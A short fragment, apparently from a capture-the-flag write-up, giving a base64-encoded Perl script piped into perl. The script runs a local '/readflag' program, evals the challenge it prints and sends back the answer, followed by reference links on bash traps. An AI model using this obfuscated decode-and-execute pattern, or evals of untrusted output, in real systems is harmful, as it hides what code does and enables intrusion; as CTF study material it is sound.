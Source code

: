 ```bash
echo 'dXNlIHN0cmljdDsKdXNlIElQQzo6T3BlbjM7CgpteSAkcGlkID0gb3BlbjMoXCpDSExEX0lOLCBcKkNITERfT1VULCBcKkNITERfRVJSLCAnL3JlYWRmbGFnJykgb3IgZGllICJvcGVuMygpIGZhaWxlZCAkISI7CgpteSAkcjsKCiRyID0gPENITERfT1VUPjsKcHJpbnQgIiRyIjsKJHIgPSA8Q0hMRF9PVVQ+OwpwcmludCAiJHIiOwokcj1ldmFsICIkciI7CnByaW50ICIkclxuIjsKcHJpbnQgQ0hMRF9JTiAiJHJcbiI7CiRyID0gPENITERfT1VUPjsKcHJpbnQgIiRyIjsKJHIgPSA8Q0hMRF9PVVQ+OwpwcmludCAiJHIiOw=='|base64 -d | perl
```
## other method (via players)
### trap (https://linuxconfig.org/how-to-modify-scripts-behavior-on-signals-using-bash-traps)
https://www.zhaoj.in/read-5479.html
